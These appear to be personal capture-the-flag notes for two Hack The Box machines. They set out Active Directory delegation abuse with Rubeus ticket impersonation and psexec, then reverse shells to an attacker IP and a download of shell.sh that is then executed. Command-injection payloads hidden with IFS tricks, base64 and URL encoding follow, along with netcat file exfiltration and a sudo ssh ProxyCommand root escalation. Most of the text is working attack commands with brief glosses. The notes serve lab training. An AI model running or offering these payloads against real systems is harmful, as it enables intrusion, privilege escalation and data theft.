 Change the msDS-AllowedToActOnBehalfOfOtherIdentity with the created ACE ($SDBytes):
Get-DomainComputer DC.SUPPORT.HTB | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}  == see the information of DC.SUPPORT.HTB and change/set the msds-allowedtoactonbehalfofotheridentity value to be the 
.\Rubeus.exe hash /password:naqib123! == create hash for the password (RC4_HMAC)
.\Rubeus.exe s4u /user:newm$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt == get a ticket when impersonating the administrator
………………………………………...........................
cat ticket.txt | base64 -d > btacket.txt  == First remove the /n, spaces and (cybershef) …, then change the format to base64
impacket-ticketConverter btacket.txt testing.txt  == convert ticket to ccache
export KRB5CCNAME=testing.txt
impacket-psexec support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -k -no-pass == |for connecting to machine on a subdomain |


=================================================================================
cozyhosting


dirsearch -u cozyhosting.htb == to see all directories when other tools can’t find any directory

Create a bash reverse shell file == bash -i >& /dev/tcp/10.10.14.18/8008 0>&1
curl http://10.10.14.6:8000/shell.sh --output /tmp/shell.sh
chmod 777 /tmp/shell.sh
/tmp/shell.sh

$(IFS=_command;=’curl_http://10.10.14.6:8000/shell.sh_--output_/tmp/shell.sh’;$command)


echo "bash -i >& /dev/tcp/10.10.14.6/8008 0>&1" | base64 -w 0
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzgwMDggMD4mMQo=" | base64
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzgwMDggMD4mMQo="${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash; == put ; at the start and end, and use ${IFS%??} instead of each space

https://www.urlencoder.org/   == url encoder and decoder

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC42LzgwMDggMD4mMQo%3D%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D-d%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B

download the file in netcat nc:
nc -nlvp 9000 > cloudhosting-0.0.1.jar == in our machine
nc 10.10.14.6 9000 < cloudhosting-0.0.1.jar == in the victim machine

python -c 'import pty;pty.spawn("/bin/bash")' == python shell



psql -h 127.0.0.1 -U postgres
\list
\c cozyhosting == connect to cozyhosting database
\d ==  list tables

Hashcat –help | grep -I ‘$2’

Su josh
Sudo -l
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
sudo ssh -o ProxyCommand='; bash 0<&2 1>&2' x
